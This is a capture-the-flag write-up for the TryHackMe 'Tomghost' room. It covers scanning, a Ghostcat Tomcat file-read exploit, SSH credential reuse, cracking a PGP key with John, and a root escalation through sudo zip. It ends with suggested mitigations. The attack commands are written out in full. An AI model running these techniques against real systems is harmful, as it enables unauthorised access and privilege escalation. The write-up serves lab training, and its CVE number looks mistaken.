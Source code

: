 # ZoeS17
## Try Hack Me - Tomghost

```bash
export IP=10.10.191.52
```
### Nmap
```bash
nmap -sC -sV -oA nmap/initial $IP
```
[Results](nmap/initial.nmap)
```bash
nmap -sC -sV -p- -oA nmap/allports $IP
```
[Results](nmap/allports.nmap)

Looks like there's a Tomcat instance on port `8080`. Given the name of the room that seems like a good place to start while our last two nmap's finish.

### Tomcat (8080)
We notice that Tomcat's version string is `Apache Tomcat/9.0.30`. We notice too that the roomname and banner image ellude to `Ghostcat`.

```bash
searchsploit Apache Tomcat Ghostcat
```
yeilds:

| Exploit Title | Path |
| ---- | ---- |
| Apache Tomcat - AJP 'Ghostcat File Read/Inclusion | multiple/webapps/48143.py |
| Apache Tomcat - AJP 'Ghostcat' File Read/Inclusion (Metasploit) | multiple/webapps/49039.rb |

the `.py` is written in python 2... And it returns a username:password, so let's try password reuse against SSH.
<!-- maybe it would be nice to update this script to py3 -->

### SSH
Our username:password does get us a shell albeit not to a very privledged user.
```bash
skyfuck@ubuntu:~$ id
uid=1002(skyfuck) gid=1002(skyfuck) groups=1002(skyfuck)
```
As we aren't user id `1000` nor `1001` I'm intrested in knowning which users those are and if they have a home dir.
```bash
skyfuck@ubuntu:~$ grep -e '100[0-9]:100[0-9]' /etc/passwd
merlin:x:1000:1000:zrimga,,,:/home/merlin:/bin/bash
tomcat:x:1001:1001::/opt/tomcat:/bin/false
skyfuck:x:1002:1002:tryhackme TRIAL PoC,3871289312,2931923021,2391293912,2031201201:/home/skyfuck:/bin/bash
```
We're not likely to be too interested in tomcat at this point, but what are the perms on `/home/merlin`?
```bash
skyfuck@ubuntu:~$ ls -lA /home
total 8
drwxr-xr-x  4 merlin  merlin  4096 Mar 10  2020 merlin
drwxr-xr-x  3 skyfuck skyfuck 4096 Nov 13 21:22 skyfuck
```
seems we can at least read files there; so what's there?

```bash
skyfuck@ubuntu:~$ ls -lA /home/merlin
total 28
-rw------- 1 root   root   2090 Mar 10  2020 .bash_history
-rw-r--r-- 1 merlin merlin  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 merlin merlin 3771 Mar 10  2020 .bashrc
drwx------ 2 merlin merlin 4096 Mar 10  2020 .cache
drwxrwxr-x 2 merlin merlin 4096 Mar 10  2020 .nano
-rw-r--r-- 1 merlin merlin  655 Mar 10  2020 .profile
-rw-r--r-- 1 merlin merlin    0 Mar 10  2020 .sudo_as_admin_successful
-rw-rw-r-- 1 merlin merlin   26 Mar 10  2020 user.txt
```
oops there's `users.txt` an we can read it and it seems that merlin can use sudo as evident by `.sudo_as_admin_successful` indicates. It looks like our goal now is to pivot to `merlin`.

```bash
skyfuck@ubuntu:~$ ls -lA
total 32
-rw------- 1 skyfuck skyfuck  313 Nov 13 21:24 .bash_history
-rw-r--r-- 1 skyfuck skyfuck  220 Mar 10  2020 .bash_logout
-rw-r--r-- 1 skyfuck skyfuck 3771 Mar 10  2020 .bashrc
drwx------ 2 skyfuck skyfuck 4096 Nov 13 21:22 .cache
-rw-rw-r-- 1 skyfuck skyfuck  394 Mar 10  2020 credential.pgp
-rw-r--r-- 1 skyfuck skyfuck  655 Mar 10  2020 .profile
-rw-rw-r-- 1 skyfuck skyfuck 5144 Mar 10  2020 tryhackme.asc

skyfuck@ubuntu:~$ file credential.pgp tryhackme.asc
credential.pgp: data
tryhackme.asc:  ASCII text, with CRLF line terminators

skyfuck@ubuntu:~$ cat tryhackme.asc
-----BEGIN PGP PRIVATE KEY BLOCK-----
Version: BCPG v1.63

lQUBBF5ocmIRDADTwu9RL5uol6+jCnuoK58+PEtPh0Zfdj4+q8z61PL56tz6YxmF
3TxA9u2jV73qFdMr5EwktTXRlEo0LTGeMzZ9R/uqe+BeBUNCZW6tqI7wDw/U1DEf
-- snip --
AKlCbtMLnrDy3kl9+8YjJmyV9pJ2ycv4w+IPYgEAs0g4rLw7W41INOdxFK+iKNbW
kG6wLdznOpe4zaLA/vM=
=dMrv
-----END PGP PRIVATE KEY BLOCK-----
```
Seems we have to use this pgp private key to decode this `credential.pgp` file.
```bash
zoes17@attackbox.thm:~$ scp skyfuck@10.10.191.52:/home/skyfuck/* .
```
this allows use to use
```bash
gpg2john tryhackme.asc > hash
```
and then we crack with Jumbo John:
```bash
jjohn hash --format=gpg -wordlist=/usr/share/wordlists/rockyou.txt
```
okay cool a password for the the keyring... Now what? Well how about we import `tryhackme.asc` on our target?
```bash
skyfuck@ubuntu:~$ gpg --import tryhackme.asc
```
and then try and decrypt `credential.pgp`:

```bash
skyfuck@ubuntu:~$ gpg --decrypt credential.pgp

You need a passphrase to unlock the secret key for
user: "tryhackme <stuxnet@tryhackme.com>"
1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11 (main key ID C6707170)

gpg: gpg-agent is not available in this session
gpg: WARNING: cipher algorithm CAST5 not found in recipient preferences
gpg: encrypted with 1024-bit ELG-E key, ID 6184FBCC, created 2020-03-11
      "tryhackme <stuxnet@tryhackme.com>"
merlin:<REDACTED>
```

that gives us merlin's password likely.
```bash
su merlin
merlin@ubuntu:/home/skyfuck$ sudo -l
Matching Defaults entries for merlin on ubuntu:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User merlin may run the following commands on ubuntu:
    (root : root) NOPASSWD: /usr/bin/zip
```
checking [GTFO Bins](https://gtfobins.github.io/gtfobins/zip/#sudo) yeilds a possible escalation vector.
```bash
merlin@ubuntu:~$ TF=$(mktemp -u)
merlin@ubuntu:~$ sudo zip $TF /etc/hosts -T -TT 'sh #'
  adding: etc/hosts (deflated 31%)
# whoami
root
# cd /root
# ls
root.txt  ufw
# cat root.txt
THM{}
```
Well that was interesting...

Now I wonder if there was a root pass and if so what is.

### After Action Review
We were able to get all the way to root via an old python2 exploit `CVE-2020-10487`. We then tried our new found creds via the SSH service and got a low priv shell without sudo rights. Running `id` told us that we weren't the first new user `1000` that wasn't a system or service user. Looking around our home directory we found a gpg key ring and an encrypted GPG file name `credential.pgp` that looks critical to our way forward or at the very least super interesting. Importing the keyring and decrypting the file yeilds use merlin's password. Merlin has sudo privledges on `/usr/bin/zip` as root which let's get a shell as root.

#### Mitgation(s)
Updating Tomcat would likely mitagte the inital foothold into the network because we wouldn't be able to use the Local File Inclusion to allow us to get skyfuck's password. Likewise making sure that skyfuck's password isn't reused for Tomcat would likely mitagte this too. Though that might not be possible due to Tomcat likely using PAM as a form of authorization. If the creditals for Merlin weren't on the same system as the shell we got as skyfuck that would make escalation to Merlin that much harder. Not allowing merlin to sudo as root without a password would then require us to know root's password to use the zip program to escalate our shell to root.